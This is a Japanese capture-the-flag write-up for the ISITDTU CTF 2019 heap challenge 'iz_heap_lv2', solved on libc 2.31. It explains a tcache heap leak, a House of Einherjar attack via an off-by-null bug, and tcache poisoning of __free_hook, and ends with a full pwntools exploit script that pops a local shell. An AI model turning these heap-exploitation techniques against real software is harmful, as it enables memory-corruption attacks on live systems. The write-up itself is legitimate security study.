 ```yaml
---
tags: pwn
---
```


# ISITDTU CTF 2019 Quals - iz_heap_lv2 (+α)

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## 公式リポジトリ

<https://github.com/isitdtu-team/ISITDTU-CTF-2019>

## Advanved

[ISITDTU CTF 2019 Quals - iz_heap_lv2](/@Xornet/HJ_X3vvAL)をlibc 2.31で解きました。もちろん2.27で解いた際の解法がそのまま使えるわけではないです。

## Writeup

※checksecとBinary, Vulnerabilityは前問と同じなので省略

### Outline

2.27版と違ってUnsorted Binへ送る際のチェックにprev_sizeを見るというのが追加されたのであちらと同じようなExploitは通用しない
ただ、[SECCON Beginners CTF 2020 - Childheap (+α)](/@Xornet/HklcV2j0L)のようにHeap leakが出来ればHouse of Einherjarが初出と殆ど同様に適用できるのでHeap leakを目指す。
単純なUAFは無い上にadd時にヌルバイトを付与するのでtcacheからの再取得時にnextメンバが潰されて一見不可能に見えるが、このヌルバイト付与が読み込んだ文字の後ろに付けるのでは無く、`p[size]`に付けるため、tcacheからの再取得時にサイズを0にすればnextメンバを破壊せずに読む事ができる(↓のコードは1文字は必ずデータを送信する仕様なので末尾バイトはデバッガ覗いて確定させた)。
後はHouse of Einherjarで真上のチャンクを指すポインタが生きている状態で結合させてUnsorted Binへ送ればlibc leakが出来、overlapしているので頑張ればtcache中にある状態でnextを書き換えてtcache poisoningが出来るので`__free_hook`を書き換える

### Heap leak

Outlineにも書いている通りでヌルバイトの付与先が次のチャンクのサイズヘッダである。よってtcacheに送られた際のnextメンバがヌルバイトに邪魔されず普通に覗けるのでこれを利用してHeap leakする。
具体的にはtcacheに入るサイズで2回addしてどちらもfreeする(topとの結合はtcacheだと発生しないので特に気にしなくて良い)
この時該当サイズのtcacheは`top -> A -> B -> null`のようになっている

この状態で該当サイズでaddすれば`A`を得られるのだがadd前のメモリは次のようになっている

```
(prev_size: 未使用) (mchunk_size)
(next: Bのアドレス)  (key)
...
```

これが`add`時のeditで`next`の位置から書き込まれるのだが0バイト書き込みも可能な上に`next`は残っているので`show`でBのアドレスを読むことが出来る。これでHeap領域からの位置を計算するなりデバッガで覗くなりして確定させればHeap baseが判明し、以後取得されるチャンクの位置を計算することが出来る、これはHouse of Einherjarでfreeされたと偽装するチャンクのfd, bkメンバに使用する

ちなみに勘違いしていたのだがkeyメンバはtcacheからの確保時に消されるので読むことは出来ない。これが残ったまま確保され、再びfreeされるとtcache_perthread_structを調べてDouble Freeチェックが行われて効率が悪い。
更にnextメンバを変更しないままfreeするとDouble Freeしていないにも関わらずDouble Free検知されてしまうので当然である

### House of Einherjar

HoE自体の説明は[SECCON Beginners CTF 2020 - Childheap (+α)](/9l6FSAdZRpWhgbarA7Efcg)でしているのでそちらと[非常にわかりやすい初出スライド](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-ja-68459648)を参考にして頂くとする。
事前に0x100のサイズのtcacheを埋めておき、次のようなメモリ配置にする

```
A: off-by-nullを引き起こすチャンク、サイズはtcacheの先頭に持ってこれるなら任意
B: ターゲットチャンク、サイズは0x100
```

ここでAをfreeする。そして再び確保するとBのサイズヘッダがヌルバイトで潰されてAが使用中にも関わらずPREV_INUSEが0になる。そしてBをfreeするとAを巻き込むBackward Consolidationが走ってAを指すポインタが生きているにも関わらずA+BがUnsorted Binへ送られる。
但し、そこそこのチェックはあり、Bのprev_sizeがAのサイズと一致しているか?Aのfd, bkメンバは正当(fdで示された箇所のチャンクのbkが自身であるか、逆も然り)かがチェックされる。
というわけでHeap leak経由で得たHeap baseを利用してAのアドレスを特定しておき、fd, bkに設定しprev_sizeも整えておけば無事に結合されてUnsorted Binへ送られる。

### libc leak + いつもの

Aを指すポインタ(`p_0`と置く)は生きているのでインデックスを指定してshowすればlibc leakが出来る。
またここでaddでUnsorted Binからチャンクを切り出すと再びAを指す別のポインタ(`p_1`)が得られる。
よって`free(p_0)`して`edit(p_1)`すればtcache中にある`p_0`のnextメンバを書き換えることが出来るのでここに`__frer_hook`のアドレスを設定してあとはいつも通り`system`を仕込んで`"/bin/sh"`が入っているチャンクをfreeしてシェルを取る。
editがあるお陰でChildheapより大分楽にtcache poisoningが出来た

## Code

```python
from pwn import p64, u64, process, ELF, gdb


def select(s, sel, c=b"Choice: "):
    s.recvuntil(c)
    s.sendline(str(sel))


def add(s, size, data=b"junk"):
    select(s, 1)
    s.recvuntil(b"size: ")
    s.sendline(str(size))
    s.recvuntil(b"data: ")
    s.send(data)


def delete(s, idx):
    select(s, 3)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))


def edit(s, idx, data):
    select(s, 2)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))
    s.recvuntil(b"data: ")
    s.send(data)


def show(s, idx):
    select(s, 4)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))
    s.recvuntil(b"Data: ")
    return s.recvline().rstrip()


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    """
    """
        - 今回も1同様サイズとインデックスのチェックは無
        - free時にポインタはクリアされる
        - 今回はまともなshowが出来る
        - off-by-null
        - libc 2.31 challenge
    """
    s = process("./iz_heap_lv2")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    free_hook_libc = libc.symbols["__free_hook"]
    system_libc = libc.symbols["system"]
    
    add(s, 0xf8)  # 0
    add(s, 0xf8)  # 1
    delete(s, 0)
    delete(s, 1)
    add(s, 0xf8, b"a") # 0

    heap_base = u64(show(s, 0).ljust(8, b"\x00")) - 0x261
    print(hex(heap_base))

    # fill tcache
    for _ in range(6):
        add(s, 0xf8)  # 1 ~ 6

    # overlap
    add(s, 0x18)  # 7
    add(s, 0xf8)  # 8 target
    add(s, 0x18)  # 9
    add(s, 0x18)  # 10

    for i in range(7):
        delete(s, i)

    # HoE
    fake_fdbk = heap_base + 0x990
    payload = p64(fake_fdbk) + p64(fake_fdbk) + p64(0x20)
    delete(s, 7)
    add(s, 0x18, payload)  # 0

    delete(s, 8)

    libc_addr = u64(show(s, 0).ljust(8, b"\x00")) - 0x1ebbe0
    print(hex(libc_addr))

    # increase tcache count
    add(s, 0x18)  # 1
    delete(s, 9)
    delete(s, 10)
    delete(s, 1)

    payload = p64(libc_addr + free_hook_libc)
    edit(s, 0, payload)
    add(s, 0x18)  # 1
    add(s, 0x18, p64(libc_addr + system_libc))  # 2

    add(s, 0x100, b"/bin/sh\x00")  # 3
    delete(s, 3)

    s.interactive()

```

## Flag

いつものローカルシェル奪取

## 感想

heap leakさえ出来れば後は[SECCON Beginners CTF 2020 - Childheap (+α)](/9l6FSAdZRpWhgbarA7Efcg)の複数ポインタ版でした。あちらと違ってPREV_INUSEを潰して巻き込むチャンクが2つで済むのでメモリレイアウトを考えるのが多少楽。
前回同様インデックスの管理が面倒で最後のdeleteに使うインデックス幾つだ???ってところで5分ぐらい潰しました
